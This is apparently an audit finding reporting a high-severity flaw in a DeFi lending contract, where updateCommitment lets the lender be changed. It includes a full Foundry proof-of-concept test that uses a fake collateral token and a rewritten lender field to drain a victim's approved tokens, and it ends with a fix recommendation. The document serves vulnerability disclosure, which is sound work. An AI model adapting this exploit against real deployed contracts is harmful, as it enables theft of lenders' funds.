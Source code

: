 immeas

high

# `LenderCommitmentForwarder::updateCommitment` allows lender to be changed

## Summary
An attacker can steal all the approved tokens from lenders having commitments. Even without commitments, all they need is to have `LenderCommitmentForwarder` approved as market forwarder and tokens approved to `TellerV2`.

## Vulnerability Detail
When creating a commitment, `msg.sender` is written as lender. However, there's no check in `updateCommitment` that lender isn't changed:

https://github.com/sherlock-audit/2023-03-teller/blob/main/teller-protocol-v2/packages/contracts/contracts/LenderCommitmentForwarder.sol#L208-L222
```solidity
File: LenderCommitmentForwarder.sol

208:    function updateCommitment(
209:        uint256 _commitmentId,
210:        Commitment calldata _commitment
211:    ) public commitmentLender(_commitmentId) {
212:        require(
213:            _commitment.principalTokenAddress ==
214:                commitments[_commitmentId].principalTokenAddress,
215:            "Principal token address cannot be updated."
216:        );
217:        require(
218:            _commitment.marketId == commitments[_commitmentId].marketId,
219:            "Market Id cannot be updated."
220:        );
221:        // no checks that lender isn't changed
222:        commitments[_commitmentId] = _commitment;
```

Hence, an attacker can take any existing lender with a commitment and fake a commitment for all tokens they have approved to `TellerV2`. Then update the commitment to use them as lender.

Proof of concept:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import { UpgradeableBeacon } from "@openzeppelin/contracts/proxy/beacon/UpgradeableBeacon.sol";

import { TellerV2 } from "../contracts/TellerV2.sol";
import { CollateralManager } from "../contracts/CollateralManager.sol";
import { LenderCommitmentForwarder } from "../contracts/LenderCommitmentForwarder.sol";
import { CollateralEscrowV1 } from "../contracts/escrow/CollateralEscrowV1.sol";
import { Collateral, CollateralType } from "../contracts/interfaces/escrow/ICollateralEscrowV1.sol";

import { ReputationManagerMock } from "../contracts/mock/ReputationManagerMock.sol";
import { LenderManagerMock } from "../contracts/mock/LenderManagerMock.sol";
import { MarketRegistryMock } from "../contracts/mock/MarketRegistryMock.sol";

import {TestERC20Token} from "./tokens/TestERC20Token.sol";

import "lib/forge-std/src/Test.sol";

contract AttackerToken {
    uint8 public decimals = 18;
    
    uint256 amount;
    constructor(uint256 _amount) { amount = _amount; }
    function balanceOf(address ) public view returns(uint256) { return amount; }
    function approve(address , uint ) public view returns(bool) { return true; }
    function transferFrom(address , address , uint256 ) public returns(bool) { return true; }
}

contract StealLenderPrincipalTest is Test {

    MarketRegistryMock marketRegistry = new MarketRegistryMock();

    TellerV2 tellerV2;
    LenderCommitmentForwarder lenderCommitmentForwarder;
    CollateralManager collateralManager;
    
    TestERC20Token principalToken;

    address attacker = address(0x1111);
    address lender = address(0x2222);

    function setUp() public {
        tellerV2 = new TellerV2(address(0));

        lenderCommitmentForwarder = new LenderCommitmentForwarder(address(tellerV2),address(marketRegistry));
        
        collateralManager = new CollateralManager();
        collateralManager.initialize(address(new UpgradeableBeacon(address(new CollateralEscrowV1()))), address(tellerV2));

        address rm = address(new ReputationManagerMock());
        address lm = address(new LenderManagerMock());
        tellerV2.initialize(0, address(marketRegistry), rm, address(lenderCommitmentForwarder), address(collateralManager), lm);

        marketRegistry.setMarketOwner(address(this));
        marketRegistry.setMarketFeeRecipient(address(this));

        tellerV2.setTrustedMarketForwarder(0,address(lenderCommitmentForwarder));

        principalToken = new TestERC20Token("Principal Token", "PRIN", 1e18, 18);
        principalToken.transfer(lender,1e18);
    }

    function testStealLenderPrincipal() public {
        uint256 amount = 1e18;

        // normal lender that has other commitments
        // needs approval to lenderCommitmentForwarder and tellerV2
        vm.startPrank(lender);
        tellerV2.approveMarketForwarder(0,address(lenderCommitmentForwarder));
        principalToken.approve(address(tellerV2),amount);
        vm.stopPrank();

        /* -----BEGIN ATTACK----- */
        vm.startPrank(attacker);

        // fake collateral
        AttackerToken attackerToken = new AttackerToken(amount);

        LenderCommitmentForwarder.Commitment memory commitment = LenderCommitmentForwarder.Commitment({
            maxPrincipal: amount,
            expiration: type(uint32).max,
            maxDuration: 365 days,
            minInterestRate: 0,
            collateralTokenAddress: address(attackerToken),
            collateralTokenId: 0,
            maxPrincipalPerCollateralAmount: 1e18*1e18,
            collateralTokenType: LenderCommitmentForwarder.CommitmentCollateralType.ERC20,
            lender: attacker,
            marketId: 0,
            principalTokenAddress: address(principalToken)
        });

        // create fake commitment
        uint256 commitmentId = lenderCommitmentForwarder.createCommitment(commitment, new address[](0));
        
        // overwrite lender using update
        commitment.lender = lender;
        lenderCommitmentForwarder.updateCommitment(commitmentId, commitment);

        // do approval as borrower
        tellerV2.approveMarketForwarder(0,address(lenderCommitmentForwarder));
        
        // commence attack
        lenderCommitmentForwarder.acceptCommitment(
            commitmentId,
            amount, // principal amount
            amount, // collateral amount
            0,
            address(attackerToken),
            10_00,
            108 days
        );
        vm.stopPrank();
        /* -----END ATTACK----- */
        
        // attacker has principal - market fee
        assertEq(9*amount/10,principalToken.balanceOf(attacker));
    }
}
```

## Impact 
An attacker can steal any tokens a lender has approved to `TellerV2` given that the lender also has approved `LenderCommitmentForwarder` as market forwarder. Any lender having active commitments on `LenderCommitmentForwarder` will need ot have this since otherwise their commitments wouldn't be able to be accepted.

## Code Snippet
https://github.com/sherlock-audit/2023-03-teller/blob/main/teller-protocol-v2/packages/contracts/contracts/LenderCommitmentForwarder.sol#L208-L222

## Tool used
Manual Review

## Recommendation
Don't allow lender to be changed with `updateCommitment`
